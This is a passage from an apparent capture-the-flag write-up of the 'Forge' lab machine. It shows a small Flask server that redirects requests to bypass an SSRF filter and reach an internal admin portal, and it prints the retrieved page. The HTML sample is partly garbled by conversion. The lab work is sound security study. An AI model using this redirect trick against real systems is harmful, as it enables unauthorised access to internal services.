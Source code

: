 My strategy is to have the site request a url on my host. That will pass
any filtering without issue. The webserver will return an HTTP redirect
back to `http://admin.forge.htb`, which `requests` will follow, and the
resulting text will be made available to me via the link.

I'll write a simple Flask server to do this:



    #!/usr/bin/env python

    from flask import Flask, redirect, request

    app = Flask(__name__)

    @app.route("/")
    def admin():
        return redirect('http://admin.forge.htb/')


    if __name__ == "__main__":
        app.run(debug=True, host="0.0.0.0", port=80)    



The idea here is that I can pass it the URL to my server. Now when I
give the site `http://10.10.14.6/`, there's a request at the Flask
server, and then the site returns a link, which I'll fetch with `curl`:



    <!DOCTYPE.md>
    .md>
    <head>
        <title>Admin Portal</title>
    </head>
    <body>
        <link rel="stylesheet" type="text/css" href="/static/css/main.css">
        <header>
                <nav>
                    <h1 class=""><a href="/">Portal home</a></h1>
                    <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                    <h1 class="align-right"><a href="/upload">Upload image</a></h1>
                </nav>
        </header>
        <br><br><br><br>
        <br><br><br><br>
        <center><h1>Welcome Admins!</h1></center>
    </body>
    <.md>



There's not a ton there on the admins page, other than links to
`/announcements` and `/upload`.

I'll add another route in the Flask source to collect `announcements`:



    @app.route("/1")
    def annoucements():
        return redirect('http://admin.forge.htb/announcements')

